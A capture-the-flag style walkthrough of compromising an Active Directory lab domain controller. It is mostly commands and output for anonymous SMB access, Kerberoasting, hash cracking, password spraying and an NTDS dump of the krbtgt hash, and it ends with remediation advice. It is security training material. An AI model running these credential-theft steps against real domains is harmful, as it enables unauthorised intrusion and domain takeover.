In this walkthrough, we will be compromising MartiniAD, an easy-difficulty Active Directory lab from Hack Smarter Labs. The engagement begins with no credentials and only VPN access to the internal network. Anonymous SMB authentication maps to the Guest account on the domain controller, exposing a non-standard `notes` share that holds plaintext credentials for `mprice`. From there, Kerberoasting retrieves a crackable hash for the `ATHENA_SVC` service account, and a password spray across the enumerated domain users shows the `athena.t0` admin account reusing that same password. The reuse grants administrative access on the domain controller, allowing an NTDS dump that recovers the `krbtgt` hash for full domain compromise.


Created by: [Ross](https://www.hacksmarter.org/courses/8da0b008-7692-4c3f-a861-b7a02a536e7b)

Let's get started.

## Objective

An adult beverage company "Martini Bars" recently had a corporate breach and the compliance and risk team dictates they perform a penetration test at one of their branch offices. The Hack Smarter team has been authorized to perform an internal black box pentest.

The client has provided you with VPN access to their internal network, but no credentials.

## Scope

**Target:** `10.1.62.227`

## RustScan

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.1.62.227 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-07-23 21:20:05Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: DRY.MARTINI.BARS, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 126
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: DRY.MARTINI.BARS, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126
| ssl-cert: Subject: commonName=DC01.DRY.MARTINI.BARS
| Issuer: commonName=DC01.DRY.MARTINI.BARS
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-07-22T21:00:54
| Not valid after:  2027-01-21T21:00:54
| MD5:     e901 1177 696b 0daa 0f52 63e8 2f1b 4038
| SHA-1:   ab4b b220 026b a310 e846 bd43 66d0 3d4e 7be8 8db9
| SHA-256: ab7a c2be 0001 de80 25b6 2ac0 9b27 9df5 3691 1f4a faed 00b3 150a 105e f870 0ebd
| rdp-ntlm-info: 
|   Target_Name: DRY
|   NetBIOS_Domain_Name: DRY
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: DRY.MARTINI.BARS
|   DNS_Computer_Name: DC01.DRY.MARTINI.BARS
|   DNS_Tree_Name: DRY.MARTINI.BARS
|   Product_Version: 10.0.26100
|_  System_Time: 2026-07-23T21:20:54+00:00
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49695/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49706/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
51021/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389/636, SMB on 445, RDP on 3389, and WinRM on 5985. The LDAP banner gives us the domain as `DRY.MARTINI.BARS`, and the RDP certificate and NTLM info confirm the hostname as `DC01.DRY.MARTINI.BARS`. Add both to `/etc/hosts` before continuing.

## SMB Enumeration

With no credentials the [AD mindmap](https://orange-cyberdefense.github.io/ocd-mindmaps/) starts at anonymous and guest access, and it is the cheapest thing to test anyway. We check anonymous authentication and enumerate shares with NetExec.

```
nxc smb 10.1.62.227 -u 'anonymous' -p '' --shares
```

```
SMB         10.1.62.227     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.1.62.227     445    DC01             [+] DRY.MARTINI.BARS\anonymous: (Guest)
SMB         10.1.62.227     445    DC01             [*] Enumerated shares
SMB         10.1.62.227     445    DC01             Share           Permissions     Remark
SMB         10.1.62.227     445    DC01             -----           -----------     ------
SMB         10.1.62.227     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.62.227     445    DC01             C$                              Default share
SMB         10.1.62.227     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.62.227     445    DC01             NETLOGON                        Logon server share 
SMB         10.1.62.227     445    DC01             notes           READ,WRITE      
SMB         10.1.62.227     445    DC01             SYSVOL                          Logon server share 
```



*Anonymous authentication mapping to Guest with READ and WRITE on the notes share*

The anonymous logon is accepted and mapped to the `Guest` account, which gets us READ and WRITE on a non-standard `notes` share plus READ on `IPC$`. A non-standard share is the lead worth following first.

## Access as mprice

We connect to the `notes` share with the same anonymous credentials.

```
smbclient //10.1.62.227/notes -U anonymous%
```

```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jul 23 17:36:19 2026
  ..                                DHS        0  Sat Jan 17 11:38:33 2026
  notes.txt                           A      129  Sat Jan 17 11:38:47 2026

                7731967 blocks of size 4096. 1544700 blocks available
smb: \> get notes.txt
getting file \notes.txt of size 129 as notes.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```



*Smbclient connected to the notes share, listing notes.txt and pulling it down*

A single 129-byte file. We exit the session and read it locally.

```
cat notes.txt
```

```
- Order more gin for lakeside
- Look for an engagement ring
- Check that notes works from Linux Mint
creds
mprice:*martini*
```



*Work notes left on an open share containing plaintext credentials for mprice*

A personal to-do list, and the last two lines hand us a credential: `mprice:*martini*`.

```
nxc smb 10.1.62.227 -u 'mprice' -p '*martini*' --shares
```

```
SMB         10.1.62.227     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.1.62.227     445    DC01             [+] DRY.MARTINI.BARS\mprice:*martini* 
SMB         10.1.62.227     445    DC01             [*] Enumerated shares
SMB         10.1.62.227     445    DC01             Share           Permissions     Remark
SMB         10.1.62.227     445    DC01             -----           -----------     ------
SMB         10.1.62.227     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.62.227     445    DC01             C$                              Default share
SMB         10.1.62.227     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.62.227     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.62.227     445    DC01             notes           READ,WRITE      
SMB         10.1.62.227     445    DC01             SYSVOL          READ            Logon server share 
```



*Validating mprice credentials with NetExec*

Credentials confirmed. `mprice` adds READ on `NETLOGON` and `SYSVOL`, and no new share turns up.

## BloodHound Enumeration

BloodHound would map the domain for us, but the collection does not survive the LDAPS handshake. We point NetExec at the DC for DNS with `--dns-server` so the collector can resolve the domain records it asks for.

```
nxc ldap 10.1.62.227 -u 'mprice' -p '*martini*' --bloodhound --collection All --dns-server 10.1.62.227
```

```
LDAP        10.1.62.227     389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:Enforced) (channel binding:No TLS cert) 
LDAP        10.1.62.227     389    DC01             [+] DRY.MARTINI.BARS\mprice:*martini* 
LDAP        10.1.62.227     389    DC01             Resolved collection methods: psremote, objectprops, group, container, localadmin, session, dcom, trusts, acl, rdp
LDAP        10.1.62.227     389    DC01             [-] BloodHound collection failed: LDAPSocketOpenError - socket ssl wrapping error: [Errno 104] Connection reset by peer
```



*NetExec resolving the collection methods and then failing on the LDAPS handshake*

Authentication succeeds and every collection method resolves, then the run dies wrapping the socket in TLS. NetExec reports `channel binding:No TLS cert`, which is what it says when it cannot retrieve a TLS certificate from the domain controller. Kerberoasting needs nothing more than a valid domain credential, so we go straight at it.

## Access as ATHENA_SVC

Kerberoasting targets accounts with a Service Principal Name set. Any authenticated domain user can request a service ticket for an SPN, and part of that ticket is encrypted with a key derived from the service account's password. We request the ticket and crack that portion offline.

```
nxc ldap 10.1.62.227 -u 'mprice' -p '*martini*' --kerberoasting output.txt --dns-server 10.1.62.227
```

```
LDAP        10.1.62.227     389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:Enforced) (channel binding:No TLS cert) 
LDAP        10.1.62.227     389    DC01             [+] DRY.MARTINI.BARS\mprice:*martini* 
LDAP        10.1.62.227     389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.1.62.227     389    DC01             [*] Total of records returned 1
LDAP        10.1.62.227     389    DC01             [*] sAMAccountName: ATHENA_SVC, memberOf: ['CN=Remote Management Users,CN=Builtin,DC=DRY,DC=MARTINI,DC=BARS', 'CN=Remote Desktop Users,CN=Builtin,DC=DRY,DC=MARTINI,DC=BARS'], pwdLastSet: 2026-01-20 13:20:32.856622, lastLogon: <never>
LDAP        10.1.62.227     389    DC01             $krb5tgs$23$*ATHENA_SVC$DRY.MARTINI.BARS$DRY.MARTINI.BARS\ATHENA_SVC*$06e32b1d689c02e240187b7b4f635b37$7ab923880d66bf7ab7e136dd98f13b73d10ba3fc0a0fd115b679033a84b8eb7957cc3d0d590d36aaf2e78dcf37dee3bff4472dd33377264428d7326c30e1f3dd7cacf42b97205641b465ce8eea32dc4e6a81537341390399597ba21828c357ac18c2b78702035d94fae09ea667569a3bb90d95a1fbdeab2b4bd34e5b846095a592d1b4fa2b17661d428c9664ab304b42ed0f0a0a99cfdcba6b07cbc2ad6cb14042c917bbd63aa998f765a33c19d80715fd68d6054e510d6a94648a79b327ef7d483721e80bad52cd034146e9dee50c9f415637620b6fde01100b1ed83e7dee1b6f176b19eaf44e5c5c1fd6a58ec950fd94483123142e765aff6620fd176cb83fcb706b2eda8849b71cf376a751c4a4dcaa5b93af8f4698930de83d91f59dc9a9797c7ca078409ff0c04d291e82dddf8e1a971a859f85579c2a42ad8012465185939ad9107d2ae9b32aba6fa8e4ca43fe7985e041708399efbdf485fa3f02127f636caaa242b01b349b06d0d50d33e88d33bfe09468bedd2963f3c37c4beb7b6a4ca7d3f17a9678188c28e1343419ecc81c1fa001f9d085ef6a28973ef904a19515ff8fcbf27cbc4ac2e8717b5caedf3cd4a5543ece5519ec0473181389e45457d7fde74238511b9f1dc3c486873ee980d5ac9cefa117b69d17d8bd9644584a51d61f14c49fc3d12a65383d431c15a2c779f7b848996529c56c57e77f120c1fd57861080d4e06aa78454f2157511833bcbbfce1d3c8dec9309c78e57b73a4598f14b599052f35762c698aab155d65dbe2b5d01c12cdd8803d502f794a69074242a5de8c24f9572a66e0cfefdc674bd46daf6bc30ce1d23ead91d03ca3d8e6852bab6b91e275779e7c8383d27742d0c540cd7c7841c924c04eb501d768c8defd159cf26448559834f216989b4acd8bebbfc2b92e3e09fcfe5d11cd47dca74de11d5d2ab9f99dc923c8acfc43e548f3c64e4ba165b6b78d791ae189233d5d20937f84d9215312f0dfc734ac5f0bb66086ced578979f73e0aaa9958f9b5d5370001cf30fe62c152a234bc1f4606622a7a04a6bf9131150fdb393588b3d1314d7d76a077c643e5f90b9fe9bd9439e6e2f6b1a3b2c598ecac960fa7dd66198a8304a518ba3afd193e86c891e96a51f08381f03c258089c6afbc565811101201ebe02e74c68f0bad93206463569783b60c382def2db66b6c2e5ef7d9d0ee77cb6a41cf415be26917ee4179c7d75bb199eb85d4dd8a65e8fd5102b3051afaf123535cc48a9d3a07c3dc8cc6fc43e82d4d8a2c50970e63a29c0ad6834a91bb2a296573eecc1967cfd58892010b293a0802477ef17d08f839add854be104431afe0eeb12a2ab706a8879033f5fdda2219abb29d569218d7830900f301ff4b57bef4d6d29ffd9373c217c3d34e2bb20fcaf187a6a4ca6be76674e28fad048cd78b8b96f17037c409aee984eb8f394c4780485b35f8c1fec11ed44d306148e4005f2a452276e3794c9c9b219d470daa6f01c7fa459
```



*Kerberoasting: ATHENA_SVC TGS hash captured via NetExec*

One roastable account comes back. NetExec writes the hash to `output.txt` and we crack it with john.

```
john output.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1dirtymartini    (?)     
1g 0:00:00:03 DONE (2026-07-23 17:42) 0.3134g/s 4082Kp/s 4082Kc/s 4082KC/s 1djwsaa..1damnshit
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```



*john recovering the ATHENA_SVC password from the TGS-REP hash*

Cracked in seconds. We have `ATHENA_SVC:1dirtymartini`.

```
nxc smb 10.1.62.227 -u 'ATHENA_SVC' -p '1dirtymartini' --shares
```

```
SMB         10.1.62.227     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.1.62.227     445    DC01             [+] DRY.MARTINI.BARS\ATHENA_SVC:1dirtymartini 
SMB         10.1.62.227     445    DC01             [*] Enumerated shares
SMB         10.1.62.227     445    DC01             Share           Permissions     Remark
SMB         10.1.62.227     445    DC01             -----           -----------     ------
SMB         10.1.62.227     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.62.227     445    DC01             C$                              Default share
SMB         10.1.62.227     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.62.227     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.62.227     445    DC01             notes           READ,WRITE      
SMB         10.1.62.227     445    DC01             SYSVOL          READ            Logon server share 
```



*Validating ATHENA_SVC credentials with NetExec*

Credentials confirmed, and the share list matches `mprice`'s.

## Access as athena.t0

We pull the domain user list with NetExec to build a target list.

```
nxc smb 10.1.62.227 -u 'ATHENA_SVC' -p '1dirtymartini' --users
```

```
SMB         10.1.62.227     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.1.62.227     445    DC01             [+] DRY.MARTINI.BARS\ATHENA_SVC:1dirtymartini 
SMB         10.1.62.227     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.1.62.227     445    DC01             Administrator                 2026-01-12 16:00:19 0       Built-in account for administering the computer/domain 
SMB         10.1.62.227     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.1.62.227     445    DC01             krbtgt                        2026-01-17 01:19:20 0       Key Distribution Center Service Account 
SMB         10.1.62.227     445    DC01             mprice                        2026-01-17 16:40:55 0        
SMB         10.1.62.227     445    DC01             athena.t0                     2026-01-20 18:20:44 0        
SMB         10.1.62.227     445    DC01             ATHENA_SVC                    2026-01-20 18:20:32 0        
SMB         10.1.62.227     445    DC01             [*] Enumerated 6 local users: DRY
```



*NetExec pulling the six domain accounts, including both athena.t0 and ATHENA_SVC*

Six accounts, and two of them are built on the same name: `ATHENA_SVC` and `athena.t0`. The `.t0` suffix is common shorthand for a tier 0 account, meaning an admin account scoped to domain controllers and identity infrastructure. That pairing makes a password spray with the service account password worth running first. We save the usernames to a `users.txt` file.

```
Administrator
Guest
krbtgt
mprice
athena.t0
ATHENA_SVC
```

We start with `1dirtymartini`, the one we just pulled off `ATHENA_SVC`.

```
nxc smb 10.1.62.227 -u users.txt -p '1dirtymartini' --continue-on-success --dns-server 10.1.62.227
```

```
SMB         10.1.62.227     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.1.62.227     445    DC01             [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.1.62.227     445    DC01             [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.1.62.227     445    DC01             [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.1.62.227     445    DC01             [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.1.62.227     445    DC01             [+] DRY.MARTINI.BARS\athena.t0:1dirtymartini (Pwn3d!)
SMB         10.1.62.227     445    DC01             [+] DRY.MARTINI.BARS\ATHENA_SVC:1dirtymartini 
```



*Password spray: athena.t0 reuses the ATHENA_SVC password and comes back Pwn3d!*

The first four attempts drop on NETBIOS connection timeouts, which means `Administrator`, `Guest`, `krbtgt`, and `mprice` never get tested against this password. `athena.t0` authenticates and NetExec tags it `(Pwn3d!)`. That flag means administrative access on the target, and the target here is the domain controller.

## NTDS Dump

`krbtgt`'s key encrypts every TGT the domain issues, so its hash lets us forge a ticket for any account. NetExec never touches NTDS.dit directly. It asks the DC to replicate the account we name, the same way domain controllers sync with each other, which is why administrative rights on the DC are all we need. `--user krbtgt` scopes what prints, not what gets read.

```
nxc smb 10.1.62.227 -u 'athena.t0' -p '1dirtymartini' --ntds --user krbtgt
```

```
SMB         10.1.62.227     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.1.62.227     445    DC01             [+] DRY.MARTINI.BARS\athena.t0:1dirtymartini (Pwn3d!)
SMB         10.1.62.227     445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.1.62.227     445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:22ebc290e67668629c8d0812662a9c51:::
SMB         10.1.62.227     445    DC01             [+] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/ntds/DC01_10.1.62.227_2026-07-23_174947.ntds of which 1 were added to the database
SMB         10.1.62.227     445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.1.62.227     445    DC01             [*] grep -iv disabled /home/kali/.nxc/logs/ntds/DC01_10.1.62.227_2026-07-23_174947.ntds | cut -d ':' -f1
```



*NTDS dump: krbtgt NT hash recovered via NetExec*

We recover the `krbtgt` NT hash `22ebc290e67668629c8d0812662a9c51`, submit it as the flag, and the domain is compromised.

## Final Thoughts

MartiniAD goes from an anonymous SMB session to the krbtgt hash without a single exploit in the chain. The one wrinkle was BloodHound collection dying on the LDAPS handshake, so I worked the rest of it blind. A username list and one valid credential turned out to be enough.

Password reuse is what turns this from a Kerberoast into a domain compromise. ATHENA_SVC and athena.t0 shared a password, and in a real environment that pairing is a critical on its own. Service accounts with SPNs belong on gMSA or a PAM-managed password, so a roasted ticket produces nothing crackable. A tier 0 account should never share a credential with anything. The plaintext credential on an anonymously readable share is the other half: guest and anonymous SMB access should be off everywhere, not just on domain controllers.

— 0xB1rd
